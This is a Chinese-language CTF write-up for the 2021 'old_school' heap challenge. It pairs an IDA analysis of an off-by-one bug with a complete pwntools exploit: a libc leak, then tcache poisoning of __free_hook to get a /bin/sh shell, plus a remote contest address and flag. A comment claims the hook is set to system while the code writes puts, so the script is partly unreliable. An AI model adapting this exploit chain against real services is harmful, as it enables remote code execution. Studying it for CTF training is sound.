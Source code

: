 # 第四届“强网”拟态防御国际精英挑战赛 2021 pwn **old_school**

> challenge name: `old_school`
>
> file: `old_school`, libc-2.27.so
>
> ld.so and .i64 with comments provided
>
> writeup writer: hexhex16@outlook.com    https://github.com/kokifish
>
> 此前没有做过堆上的Off-By-One，第一次做，花的时间比预想的短，记录下这一个第一次。

Off-By-One漏洞，malloc时size为0x28,0x38,0x48...时，可以向下一chunk的size域的最低1字节写入任意一个字符。

思路：把一个chunk放入unsorted bin中，然后利用前面的一个chunk做Off-By-One，改大unsorted bin中的chunk的size，再把unsorted bin中的chunk malloc回来。因为这个chunk的size实际上是大于在内存上本来应有的size，所以这个chunk是可以编辑到下一个chunk的。只要下一个chunk在tcache中，就可以改下一chunk的fw为`__free_hook`，然后做tcache poisoning。



一句话概括：把一个在unsorted bin中的chunk的size改大，拿回来的时候，编辑下一个chunk，这个chunk要在tcache中。

# IDA Analysis

保护全开

标准表单题，漏洞出在edit中，如果new时的大小为0x28, 0x38...这样的，edit时可以输入size+1个字符，最后一个字符将可以覆盖下一个chunk的size域的最低1字节。即Off-By-One漏洞

```cpp
void __fastcall __noreturn main(__int64 a1, char **a2, char **a3)
{
  sub_9A5();
  while ( 1 )
  {
    menu();
    switch ( readint() )
    {
      case 1LL:
        new();
        break;
      case 2LL:
        edit();                                 // 存在溢出 可以覆盖下一chunk的size
        break;
      case 3LL:
        print();                                // idx可为负数，content调printf %s输出
        break;
      case 4LL:
        delete();                               // free后指针置0 arrSize[idx]置0
        break;
      case 5LL:
        exit(0);
      default:
        puts("Unknown");
        break;
    }
  }
}
```

```cpp
unsigned __int64 edit()
{
  unsigned __int64 idx; // rax
  unsigned __int64 idx_ori; // [rsp+8h] [rbp-8h]

  printf("Index: ");
  idx = readint();
  idx_ori = idx;
  if ( idx <= 0x1F )
  {
    idx = arrPtr[idx];
    if ( idx )
    {
      printf("Content: ");
      return edit_sub(arrPtr[idx_ori], arrSize[idx_ori] + 1LL);// 可以向下一chunk的size域写入一个任意字符
    }
  }
  return idx;
}
```

```cpp
unsigned __int64 __fastcall edit_sub(__int64 ptr, unsigned __int64 len)
{
  unsigned __int64 result; // rax
  unsigned __int64 i; // [rsp+18h] [rbp-8h]

  for ( i = 0LL; ; ++i )
  {
    result = i;
    if ( i >= len )
      break;
    read(0, (void *)(ptr + i), 1uLL);
    result = *(unsigned __int8 *)(ptr + i);
    if ( (_BYTE)result == '\n' )
      break;
  }
  return result;
}
```



# exp

gdb里可以用`x /30xg $a`来查看arrPtr，程序用来存放指针的数组。

```python
from pwn import *
context.arch = 'amd64'
# context.log_level = "debug"
IP = "121.36.194.21"
PORT = 49154
DEBUG = 1


if DEBUG:
    p = process(["./ld.so", "./old_school"], env={"LD_PRELOAD": "./libc-2.27.so"})
    # p = process("./old_school")
    libc = ELF("./libc-2.27.so")
    # attention: argv[1] for ./pwn when running with ./ld.so ./pwn
    base = p.libs()[p._cwd + p.argv[1].decode().strip('.')]  # fix bytes str error in py3.9
    print("base:", base, p.libs())

else:  # flag{m0lWJAzDB1vzxMn9PlMQXkPvEmGAdZzB}
    p = remote(IP, PORT)
    libc = ELF("./libc-2.27.so")


def ru(x): return p.recvuntil(x)
def se(x): return p.send(x)
def rl(): return p.recvline()
def sl(x): return p.sendline(x)
def rv(x): return p.recv(x)
def sa(a, b): return p.sendafter(a, b)
def sla(a, b): return p.sendlineafter(a, b)
def l64(): return u64(p.recvuntil("\x7f")[-6:].ljust(8, b"\x00"))  # python 3.9 pass


def debug(cmd=""):
    gdb.attach(p, cmd)


def dd():
    if DEBUG:
        cmd = ""
        # cmd += "b *%d\n" % (base + 0xC0E)  #
        cmd += "set $a=%d\n" % (base + 0x202160)  # arrPtr
        debug(cmd)


def new(idx, size):
    sla("Your choice: ", str(1))
    sla("Index: ", str(idx))
    sla("Size: ", str(size))
    ru("Done!")


def edit(idx, content):
    sla("Your choice: ", str(2))
    sla("Index: ", str(idx))
    sa("Content: ", content)


def printnote(idx):
    sla("Your choice: ", str(3))
    sla("Index: ", str(idx))
    ru("Content: ")
    return ru("1. New note")[:-12]


def delete(idx):
    sla("Your choice: ", str(4))
    sla("Index: ", str(idx))


new(0, 0x18)  # no use
new(1, 0x18)  # no use

edit(1, "chunk1".ljust(0x10, 'a') + '\n')
# === Step-1: full tcache, a chunk to unsorted bin
new(2, 0x98)
for i in range(3, 10, 1):
    new(i, 0x98)  # 3~9
for i in range(9, 2, -1):
    delete(i)  # 9~3 # full tcache
delete(2)  # to unsorted_bin
# tcache(0xa0) cnt=7: c3, c4, c5 ... c9 # unsorted_bin cnt=1: 0xa0

# === Step-2: get back a chunk in unsorted bin, leak libc addr
new(2, 0x78)  # get a chunk(0x81) from unsorted_bin # 拿回 unsorted_bin 的chunk
data = printnote(2)  # leak libc addr # 泄露刚刚拿回来的chunk上残留的libc上的地址
libc.address = u64(data.ljust(8, b"\x00")) - 0x7fd552399d30 + 0x00007fd551fae000
print("data:", data)
print("libc.address:", libc.address, hex(libc.address))

# tcache(0xa0) cnt=7: c3, c4, c5 ... c9 # unsorted_bin cnt=1: 0x20
# === Step-3: edit the rest chunk's size in unsorted_bin
edit(2, "chunk2".ljust(0x78, 'a') + chr(0x61))  # cover size to 0x61
# tcache(0xa0) cnt=7: c3, c4, c5 ... c9 # unsorted_bins cnt=1: 0x60

new(3, 0x58)  # malloc the chunk in unsorted bin
# cover fw of head chunk in tcache
edit(3, b"chunk3".ljust(0x18, b'a') + p64(0xa0) + p64(libc.symbols["__free_hook"]) + b'\n')
# tcache(0xa0) cnt=7: head_chunk, &__free_hook
new(4, 0x98)  # tcache(0xa0) cnt=6: &__free_hook
edit(4, "/bin/sh\x00\n")
new(5, 0x98)  # get &__free_hook
edit(5, p64(libc.symbols["puts"]) + b'\n')  # cover __free_hook with system
delete(4)  # system("/bin/sh\x00\n")
dd()

p.interactive()

```

